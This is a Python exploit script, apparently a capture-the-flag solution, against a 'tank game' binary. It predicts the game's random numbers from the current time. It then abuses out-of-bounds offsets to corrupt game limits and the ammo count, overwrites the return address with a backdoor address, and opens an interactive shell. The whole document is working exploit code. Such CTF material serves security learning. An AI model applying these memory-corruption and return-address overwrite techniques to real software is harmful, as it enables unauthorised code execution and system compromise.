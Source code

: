 ```python
    ru("fire when ready!")
    sl("pew!")

def shot_change(result,ammo_type,max_power=33,max_ange=90,byte=b'\x00'):
    print("max_power"+str(max_power)+"\n max_ange="+str(max_ange))
    power,angle=myfun(result,max_power,max_ange)
    ru("Select ammo type:\n1: _\n2: -")
    sl(str(ammo_type))
    ru("Enter power: ")
    sl(str(power))
    ru("Enter angle: ")
    sl(str(angle))
    ru("fire when ready!")
    sl(b"pew!AA"+byte)
    sl("pew!")


ru("welcome to the super sick tank game! survive for as long as you can!")

now=int(time.time())
mylibc.srand(now)

for i in range(10):
    shot()


max_power_offset=0x70
max_ange_offset=-0x4
shot_change(max_power_offset-1,2)
shot_change(0,2)

max_power=45
max_ange=0x2d00005a
miss_offset=-0x12c
shot_change(max_power_offset+3,2,max_power,max_ange)
max_power=10000

shot_change(miss_offset-1,2,max_power,max_ange)

num_ammo_types_num_offset=-0x118
backdoor=0x4013E3

shot_change(num_ammo_types_num_offset,1,max_power,max_ange,p8(backdoor&0xff))
ret_offset=0x90
shot_change(ret_offset,9,max_power,max_ange,p8((backdoor>>8)&0xff))
shot_change(ret_offset+1,9,max_power,max_ange,p8(1))
shot_change(miss_offset,9,max_power,max_ange)
shot_change(0,1,max_power,max_ange)
shot_change(0,1,max_power,max_ange)
#mydbg()

shot_change(0,1,max_power,max_ange)
#mydbg()



p.interactive()
```
